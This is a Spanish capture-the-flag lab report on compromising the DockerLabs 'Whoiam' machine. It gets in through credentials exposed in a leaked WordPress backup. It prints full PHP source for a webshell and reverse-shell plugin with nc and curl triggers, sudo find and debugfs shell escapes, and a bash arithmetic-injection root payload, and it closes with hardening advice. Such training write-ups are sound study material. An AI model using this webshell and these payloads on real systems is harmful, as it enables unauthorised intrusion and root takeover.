# Informe de Laboratorio: Whoiam

El presente documento detalla el proceso de analisis de vulnerabilidades y pruebas de penetracion (*Pentesting*) realizado sobre la maquina , un entorno controlado desplegado localmente mediante la plataforma **DockerLabs**. 

El objetivo es identificar servicios expuestos, explotar fallos de configuracion o vulnerabilidades de software, y escalar privilegios hasta obtener acceso total como el usuario administrador (`root`).

* **Curso:** [Ciberseguridad BIOS]

* **Auditoria:** [NGalarza-sysec]

* **Objetivo de Evaluación:** Máquina Whoiam (IP: `172.18.0.2`)

## 1.  Escaneo de Puerto. (Nmap)

>[!NOTE] 
>**🎯  Objetivo**
>
>**Indentificar Puertos abiertos Ejecutando Nmap 172.18.0.2**

```bash
nmap 172.18.0.2
```


>[!NOTE] 
>**✅  Resultado:**
> El análisis determinó que el siguiente puerto se encuentra accesible:
>
>* **Port 80/tcp:** Servicio HTTP abierto (Servidor Web).

## 2.  Impeccion del Servicio Web. Reconocimiento HTTP 
>[!NOTE] 
>**🎯  Objetivo**
>
> Interactuar con el servicio HTTP expuesto en el puerto 80 para auditar el contenido de la página web principal.
>
>Al navegar a la dirección `http://172.18.0.2`, se observa una landing page estática con el título *"Whoiam: I don't know who I am, I have to find out."* y un botón de interacción (*About us*). No se aprecian formularios ni parámetros visibles a simple vista.



## 3. Descubrimiento de Rutas (Fuzzing con Gobuster)
>[!NOTE]
> **🎯  Objetivo**
>
>Ejecutar un proceso de *fuzzing web* automatizado para mapear la estructura interna del sitio e identificar directorios ocultos o archivos expuestos.
>
>Se realiza una búsqueda dirigida utilizando un diccionario estándar y especificando extensiones comunes de ejecución y compresión:


```bash
gobuster dir -u http://172.18.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,sh,html,py,zip,rar
```



### Análisis de las Respuestas del Servidor
**El escaneo por fuerza bruta reportó las siguientes rutas de interés crítico:**
* `/wp-content/` (Status: 301) -> **Confirma el uso del CMS WordPress.**
* `/wp-login.php` (Status: 200) -> **Panel de inicio de sesión administrativo.**
* `/backups/` (Status: 301) -> **Directorio de almacenamiento expuesto.**
* `readme.html` (Status: 200) -> **Archivo de documentación por defecto de WordPress.**
  
## 4. Plan de Acción y Rutas de Explotación

**A partir del reconocimiento previo, se trazan tres vectores potenciales de ataque:**

>[!NOTE]
> 
> **Ruta 1: Auditoría del Directorio `/backups`**
> 
> Se inspeccionará de forma manual el directorio web expuesto para comprobar si almacena copias de seguridad de la base de datos (`.sql`), credenciales en texto plano o configuraciones sensibles.
> 
> * **URL:** `http://172.18.0.2/backups/`

>[!WARNING]
> 
> **Ruta 2: Reconocimiento y Fuerza Bruta con WPScan**
> 
> Al confirmarse la existencia de WordPress, se plantea una enumeración agresiva de usuarios y complementos vulnerables utilizando la suite WPScan.
> 
> * *Enumeración de usuarios:* `wpscan --url http://172.18.0.2 --enumerate u`
> * 
> * *Fuerza bruta al panel administrativo:* `wpscan --url http://172.18.0.2 -U <usuario> -P /usr/share/wordlists/rockyou.txt`

>[!NOTE]
> 
> **Ruta 3: Inspección de Metadatos en `readme.html`**
> 
> Revisión del archivo de texto expuesto para extraer la versión exacta del CMS y contrastar vulnerabilidades públicas asociadas en bases de datos como *Searchsploit*.

## 5. Fase de Explotación

### 5.1 Explotación de la Ruta 1: Análisis del Respaldo Web

 Al acceder de manera directa al directorio `/backups/` desde el navegador, se constató que el indexado de archivos web se encuentra activo, exponiendo un paquete comprimido llamado `databaseback2may.zip`.



>[!NOTE]
>### Descarga y Descompresión
>
>Se transfiere el archivo hacia el equipo atacante y se extraen sus elementos:
>
>```bash
>
>wget http://172.18.0
>
>unzip databaseback2may.zip
>```

>[!NOTE]
>### Inspección del Archivo Extraído
>
>La descompresión generó un archivo plano de nombre `29DBMay`. Al examinar su contenido, se localizaron credenciales de acceso administrativo expuestas en texto plano:
>
>```bash
>
>cat 29DBMay
>```
>
>* **Username:** `developer`
> 
>* **Password:** `2wmy3KrGDRD%RsA7Ty5n71L^`



>[!NOTE]
>
>### 5.2 Autenticación y Acceso al Panel de Administración (WordPress)
>
>Las credenciales obtenidas se validaron en el formulario `/wp-login.php`, logrando un inicio de sesión exitoso y acceso total al *Dashboard* (`/wp-admin/`) bajo el contexto del usuario `developer`.

**Información recolectada del entorno:**
* **Versión del CMS:** `WordPress 6.5.4`
* **Tema Activo:** `Twenty Twenty-Four`
* **Plugins Instalados:** `**Modern Events Calendar (M.E. Calendar)**`




> [!success] Acceso Exitoso al Dashboard
> La autenticación fue exitosa, otorgando acceso completo al panel de administración de WordPress (`/wp-admin/`).
> 
> **Detalles del entorno identificado:**
> * **URL de administración:** `http://172.18.0.2/wp-admin/`
> * **Usuario autenticado:** `developer`
> * **Versión del CMS:** WordPress 6.5.4
> * **Tema activo:** Twenty Twenty-Four
> * **Plugins detectados:** Modern Events Calendar, M.E. Calendar



## <u>3.3 Creación y Configuración del Plugin Malicioso</u>

Para lograr la ejecución remota de comandos (RCE) y establecer la conexión inversa, se diseñó un plugin personalizado para WordPress que actúa como webshell y disparador de reverse shell.

> [!code] Código del Plugin (`plugin-shell.php`)
> Se creó el archivo con el siguiente script en PHP:
> 
> ```php
> <?php
> /*
> Plugin Name: CTF Shell
> Description: Shell for the CTF lab.
> Version: 1.0
> */
> 
> $cmd = 'cmd';
> 
> if (isset($_REQUEST[$cmd])) {
>     executeCommand($_REQUEST[$cmd]);
> } elseif (isset($_REQUEST['ip'])) {
>     $ip = $_REQUEST['ip'];
>     $port = isset($_REQUEST['port']) ? (int)$_REQUEST['port'] : 4444;
> 
>     if (!filter_var($ip, FILTER_VALIDATE_IP)) {
>         die("Invalid IP");
>     }
> 
>     if ($port < 1 || $port > 65535) {
>         die("Invalid port");
>     }
> 
>     $sock = fsockopen($ip, $port, $errno, $errstr, 5);
> 
>     if (!$sock) {
>         die("Connection failed: $errstr ($errno)");
>     }
> 
>     $descriptors = [
>         0 => $sock,
>         1 => $sock,
>         2 => $sock
>     ];
> 
>     $process = proc_open('/bin/bash -i', $descriptors, $pipes);
> 
>     if (is_resource($process)) {
>         proc_close($process);
>     }
> 
>     fclose($sock);
> }
> 
> function executeCommand(string $command): void
> {
>     system($command);
> }
> ?>
> ```

---
## <u>3.4 Empaquetado y Despliegue en WordPress</u>

> [!example] 1. Compresión del Plugin
> Dado que el panel de administración exige la subida de plugins en formato `.zip`, se comprime el archivo PHP creado mediante la terminal:
> ```bash
> zip ctf-shell.zip plugin-shell.php
> ```

> [!example] 2. Subida e Instalación
> 1. En la interfaz web (`/wp-admin/`), navegar a **Plugins** -> **Add New** -> **Upload Plugin**.
> 2. Cargar el archivo `ctf-shell.zip` y presionar **Install Now**.
> 3. Al procesarse, el archivo queda disponible en la ruta del servidor dentro de `/wp-content/plugins/ctf-shell/plugin-shell.php`.







## <u>3.5 Estabilización de la Listener y Disparo</u>

> [!example] 1. Inicialización del Listener (`netcat`)
> Antes de invocar el script, se coloca la máquina atacante en modo de escucha en la consola de Kali:
> ```bash
> nc -lvnp 4444
> ```



> [!example]  2. Ejecución de la Solicitud HTTP (`curl`)
> Para invocar el script y transmitir los parámetros de conexión, se utiliza `curl` estructurando los argumentos de manera explícita:
> 
> ```bash
> curl -v --get \
>   --data-urlencode "ip=172.18.0.1" \
>   --data-urlencode "port=4444" \
>   "http://172.18.0.2/wp-content/plugins/ctf-shell/plugin-shell.php"
> ```
> 
> * **`-v`:** Habilita la salida detallada (*verbose*) para inspeccionar la respuesta del servidor HTTP.
> * **`--get`:** Asegura la transmisión mediante el método GET.
> * **`--data-urlencode`:** Realiza la codificación correcta de los parámetros en la URL.
---



> [!success] Confirmación de Conexión Inversa (Reverse Shell)
> Al ejecutar el comando `curl`, la petición se mantiene en espera (*Request completely sent off*), lo cual confirma que el proceso PHP inició exitosamente la sesión interactiva `/bin/bash` hacia el listener de `netcat`

## 3.6 <u> Metodo estandar de estabilizacion </u>

>[!TARGET] Tratamiento de la Shell (TTY Stabilization)
Antes de proceder con la explotación, se estabilizó la shell intermitente de `netcat` para obtener una terminal interactiva completa (soporte de flechas, historial y autocompletado):

```bash
# 1. Dentro de la shell reversa, generar una pseudo-terminal (PTY)
script /dev/null -c bash

# 2. Suspender la shell al segundo plano de nuestra máquina atacante
Ctrl + Z

# 3. En la terminal local (Kali), configurar modo raw y devolver al primer plano
stty raw -echo; fg

# 4. Le damos a la tecla ENTER para visualizar la shell

# Bonus: Escribe estos dos comandos para restaurar las variables de entorno, el autocompletado y los colores.
 export TERM=xterm
 export SHELL=bash
```



## <u>4. Estado Actual y Siguientes Pasos (Escalación de Privilegios)</u>

> [!info] Alcance del Acceso Obtenido
> Actualmente se ha consolidado el acceso inicial en el sistema objetivo bajo el contexto del usuario de servicio del servidor web (`www-data`).
> 
> **Fase Siguiente:** Escalación de privilegios hacia la cuenta `root`.

## <u>4.1 Identificación de Permisos Elevados (`sudo -l`)</u>

En la sesión de `netcat`, se ejecutó `sudo -l` para verificar los permisos del usuario `www-data`.



> [!success] Resultado del Análisis
> Se detectó la regla `(rafa) NOPASSWD: /usr/bin/find`. Esto permite ejecutar el comando `find` con los privilegios del usuario `rafa` sin ingresar contraseña.

> [!success] Confirmación de Escalación Horizontal (`www-data` -> `rafa`)
> Al ejecutar el binario `/usr/bin/find` bajo el contexto de `sudo -u rafa`, el sistema instanció una nueva sesión interactiva de shell.
> 
> ```bash
> sudo -u rafa /usr/bin/find . -exec /bin/bash \; -quit
> ```
> 
> ```bash
> whoami
> `Resultado: rafa`
> ```
> 

> [!info] Enumeración desde el Usuario `rafa`
> Una vez obtenido el acceso como `rafa`, se consultaron nuevamente las reglas de `sudo`:
> ```text
> User rafa may run the following commands:
>     (ruben) NOPASSWD: /usr/sbin/debugfs
> ```
> **Identificación:** Se detecta un nuevo vector de escalación horizontal hacia el usuario `ruben` mediante el uso del binario `/usr/sbin/debugfs`.

## <u>4.2 Escalación Horizontal (`rafa` -> `ruben`)</u>



> [!abstract] Vector de Explotación (`debugfs`)
> El binario `/usr/sbin/debugfs` permite la ejecución de comandos del sistema operativo desde su prompt interactivo anteponiendo el carácter `!`.

> [!success] Ejecución y Cambio de Contexto
> 1. Se inicia la herramienta con permisos delegados:
>    ```bash
>    sudo -u ruben /usr/sbin/debugfs
>    ```
> 2. Dentro del prompt `debugfs:`, se escapa a una shell interactiva:
>    ```text
>    debugfs: !/bin/bash
>    ```
> 3. Se verifica la identidad del nuevo contexto mediante `whoami` (`ruben`).

## <u>4.3 Enumeración y Escalación Vertical (`ruben` -> `root`)</u>

> [!info] Enumeración de Reglas de Sudo
> Tras pivotar al usuario `ruben`, se listaron los privilegios delegados con el comando `sudo -l`:
> ```text
> User ruben may run the following commands on target:
>     (ALL) NOPASSWD: /bin/bash /opt/penguin.sh
> ```
> * **Comando Autorizado:** `/bin/bash /opt/penguin.sh`
> * **Permisos de Ejecución:** `(ALL)` — Permite ejecución en el contexto de `root`.
> * **Condición:** `NOPASSWD` — No solicita clave para la invocación.

> [!danger] Análisis de Código en `/opt/penguin.sh`
> La lectura del script mediante `cat /opt/penguin.sh` reveló la siguiente lógica:
> ```bash
> #!/bin/bash
> read -rp "Enter guess: " num
> if [[ $num -eq 42 ]]
> then
>     echo "Correct"
> else
>     echo "Wrong"
> fi
> ```
>
> **Vector Vulnerable (Bash Arithmetic Evaluation Injection):**
> * En intérpretes Bash, las comparaciones aritméticas con `[[ $var -eq ... ]]` evalúan expresiones complejas antes de procesar la igualdad numérica.
> * Al delegar este script con privilegios de superusuario (`sudo`), la falta de sanitización estricta sobre `$num` representa un riesgo grave de inyección y ejecución de comandos con privilegios elevados.

> [!success] Evidencia Final de Escalación
> * **Comando Invocado:** `sudo /bin/bash /opt/penguin.sh`
> * **Payload Introducido:** `a[$(/bin/bash >&2)]+42`
> * **Resultado Obtenido:** Sub-shell instanciada bajo la identidad de `root` (`whoami` $\rightarrow$ `root`).



## <u>5. Conclusión y Recomendaciones de Hardening</u>

> [!warning] Medidas Correctivas Integrales
> 
> 1. **Sanitización Estricta en Scripts Bash:**
>    Modificar la lógica de `/opt/penguin.sh` para validar que la entrada sea exclusivamente numérica antes de realizar evaluaciones aritméticas:
>    ```bash
>    if [[ "$num" =~ ^[0-9]+$ ]] && [[ "$num" -eq 42 ]]; then
>        echo "Correct"
>    fi
>    ```
> 2. **Auditoría de Archivos `sudoers`:**
>    * Remover los permisos `NOPASSWD` para binarios interactivos (`/usr/bin/find`, `/usr/sbin/debugfs`).
>    * Restringir la delegación de permisos sobre scripts personalizados que procesen datos de entrada no confiables.
> 3. **Endurecimiento de WordPress y Archivos:**
>    * Mantener la directiva `define('DISALLOW_FILE_MODS', true);` en `wp-config.php` para impedir la instalación o modificación no autorizada de complementos.
>    * Eliminar copias de seguridad o respaldos comprimidos (`.zip`, `.sql`) guardados en directorios web accesibles (`/backups`).

## <u>6. Resumen de la Cadena Completa</u>

| Fase                       | Contexto Inicial  | Vector / Herramienta              | Contexto Obtenido |
| :------------------------- | :---------------- | :-------------------------------- | :---------------- |
| 1. Acceso Inicial          | `Unauthenticated` | RCE en Plugin WP                  | `www-data`        |
| 2. Escalación Horizontal 1 | `www-data`        | `sudo -u rafa /usr/bin/find`      | `rafa`            |
| 3. Escalación Horizontal 2 | `rafa`            | `sudo -u ruben /usr/sbin/debugfs` | `ruben`           |
| 4. Escalación Vertical     | `ruben`           | Inyección en `/opt/penguin.sh`    | **`root`**        |



